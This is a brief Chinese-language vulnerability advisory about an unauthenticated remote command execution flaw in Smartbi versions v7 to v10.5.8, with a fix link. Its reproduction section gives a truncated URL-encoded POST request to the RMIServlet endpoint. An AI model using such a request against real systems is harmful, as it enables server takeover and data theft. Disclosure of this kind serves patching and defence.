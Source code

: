 # 

# Smartbi 远程命令执行漏洞

## 漏洞描述

Smartbi 大数据分析平台存在远程命令执行漏洞，未经身份认证的远程攻击者可利用 stub 接口构造请求绕过补丁限制，进而控制 JDBC URL，最终可导致远程代码执行或信息泄露。

## 漏洞影响

```
v7 <= Smartbi <= v10.5.8
```

## 漏洞复现

```
POST /smartbi/vision/RMIServlet?windowUnloading=&%7a%44%70%34%57%70%34%67%52%69%70%2b%69%49%70%69%47%5a%70%34%44%52%77%36%2b%2f%4a%
```

## 漏洞修复

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.smartbi.com.cn/patchinfo
